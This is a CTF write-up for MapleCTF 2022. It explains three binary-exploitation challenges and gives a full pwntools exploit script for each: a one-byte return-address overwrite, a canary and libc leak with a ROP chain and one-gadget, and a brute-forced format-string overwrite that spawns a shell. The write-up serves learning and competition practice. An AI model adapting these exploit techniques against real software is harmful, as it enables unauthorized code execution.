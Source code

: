 ```yaml
---
title: MapleCTF 2022
date: 2022-08-27 00:14:18
category: CTF Writeup
tags:
    - MapleCTF
---
```


## warmup1

A simple 1 byte buffer overflow to overwrite the first byte of the return address to main and jump to `win` function. 

EXP:

```python
from pwn import *


context.arch = "amd64"
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

HOST = "warmup1.ctf.maplebacon.org"
PORT = 1337
LOCAL = False
elf = ELF("./warmup1")
libc = elf.libc

context.log_level = "info"
p = remote(HOST, PORT)

# Exploit starts here
padding = 24
payload = b'A' * padding + b"\x19"
p.send(payload)
print(p.readall(timeout=1))
```

## warmup2

Very similar to `warmup1`, but with canary, ASLR all enabled. However, it provides us two `printf` function which can be used to leak canary and base addresses. 

First to leak out canary and stack address, then repeat the function by overwrite first byte of return address (actually we can repea arbitrary times to get everything we want). Then construct ROP chain to leak libc address, finally attack by using the one-gadget. 

EXP:

```python
from pwn import *


context.arch = "amd64"
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)

HOST = "warmup2.ctf.maplebacon.org"
PORT = 1337
LOCAL = False
elf = ELF("./warmup2")
libc = elf.libc

context.log_level = "info"
p = remote(HOST, PORT)

# Exploit starts here
padding = 0x108

# leak address
sa("?", b"A" * (padding + 1))
rl()
msg = rl()
canary = u64(b'\x00' + msg[0x10f:0x10f + 7])
info("CANARY LEAKED" + hex(canary))
stack_addr = u64(msg[0x116:-2].ljust(8, b'\x00'))
info("STACK_ADDR LEAKED" + hex(stack_addr))

sa("?", b"B" * padding + p64(canary) + p64(stack_addr) + b'\xd8')

sa("?", b"C" * (padding + 0x10))
ru("Hello ")
msg = rl()
return_addr = u64(msg[padding + 0x10:-2].ljust(8, b'\x00'))
elf.address = return_addr - 0x12e2
info("RETURN_ADDR LEAKED: " + hex(return_addr))
info("ELF_BASE CALCULATED: " + hex(elf.address))

# start exploit
pop_rdi = elf.address + 0x1353
payload = flat(
        b"D" * padding,
        canary,
        b"D" * 8,
        pop_rdi,
        elf.got["puts"],
        elf.plt["puts"],
        elf.symbols[b'vuln'],
        )
sa("?", payload)
ru("Wow, I'm ")
rl()
msg = rl()
putsaddr=u64(msg[:-1].ljust(8,b'\x00'))
info('puts->'+hex(putsaddr))
libc.address = putsaddr - libc.symbols['puts']

payload = flat(
        b"E" * padding,
        canary,
        b"E" * 8,
        libc.address + 0xe3b01, # one gadget
        )
sa("?", payload)
sl("DONE")

p.interactive()
```

## printf (learned from WP)

The program takes in the user input and then `printf` out. Classic format string challenge. However, I stuck at reruning the `printf` function to overwrite the return address. I thought of overwrite the chain pointers and get control, but failed because one `printf` don't allow to overwrite two places (return address and a pointer) 

After looking at the WP in the [reference](#reference) section, they said all the secrets are lie in the [source code](https://elixir.bootlin.com/glibc/glibc-2.31/source/stdio-common/vfprintf-internal.c#L1748). 

The source code tell us that when it encounters the position character, `$`, it will store the value of positions into an internal buffer called `args_value`. So when doing the overwrite by using `%n`, the value was fatched is the initial value instead of the changed value. To get rid of this, we need to construct payload without the first `$` character. Instead, we may use `%c` or `%p` to get to the right poisition on stack.

That's all the information we can get, however, we still can't know the stack address to do the overwrite. That's where the bruteforce comes in (but tipically, CTF will not have bruteforce challenges to prevent DDoS the platform). 

EXP:

```python
from pwn import *


context.arch = "amd64"
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)

HOST = "printf.ctf.maplebacon.org"
PORT = 1337
LOCAL = False
elf = ELF("./printf")
libc = elf.libc

while True:
    context.log_level = "info"
    if LOCAL:
        p = process(elf.file.name)
    else:
        context.log_level = "info"
        p = remote(HOST, PORT)

    # Exploit starts here
    # registers part
    payload = "%c" * 3
    size = 3
    payload += "%p" # bss (program addr)
    size += 14
    payload += "%c"
    size += 1

    # stack part
    payload += "%p" # stack addr
    size += 14
    payload += "%c" * 6
    size += 6
    payload += "%p" # libc_start_main (libc addr)
    size += 14
    payload += "%" + str(0x7348 - size) + "c"
    payload += "%hn%" + str(0xed - 0x48) + "c%43$hhn"
    # payload += "%" + str(0x178 - 0xed) + "%6$hhn" # prepare pointer to overwrite the libc_start_main
    sl(payload)

    ru("0x")
    base_addr = int(r(12), 16) - 0x4040
    ru("0x")
    stack_addr = int(r(12), 16)
    ru("0x")
    libc_addr = int(r(12), 16) - 0x24083
    print(hex(base_addr), hex(stack_addr), hex(libc_addr))

    if (stack_addr & 0xffff) != 0x7350:
        p.close()
        continue

    print("!!!!!!!!!!bruteforce success!!!!!!!!!!!!")
    # if LOCAL:
    #     gdb.attach(p, "b *go + 0x36\nc")

    # start exploit
    one_gadget = libc_addr + 0xe3b01
    low_word = one_gadget & 0xffff 
    low_word2 = (one_gadget & 0xffff0000) >> 16

    # setup the pointer for overwrite the return addr of main
    payload2 = "%" + str(0x78) + "c%6$hhn"
    payload2 += "%" + str(0xed - 0x78) + "c%43$hhn"
    sl(payload2)

    # overwrite part of the address
    payload2 = "%" + str(0x7a) + "c%6$hhn"
    payload2 += "%" + str(0xed - 0x7a) + "c%43$hhn"
    payload2 += "%" + str(low_word - 0xed) + "c%8$hn"
    sl(payload2)

    # finish up and get shell
    payload2 = "%" + str(low_word2) + "c%8$hn"
    sl(payload2)

    p.interactive()
```

## Reference

http://blog.redrocket.club/2020/12/23/HXPCTF-Still_Printf/
https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/hxp2020-still-printf.py
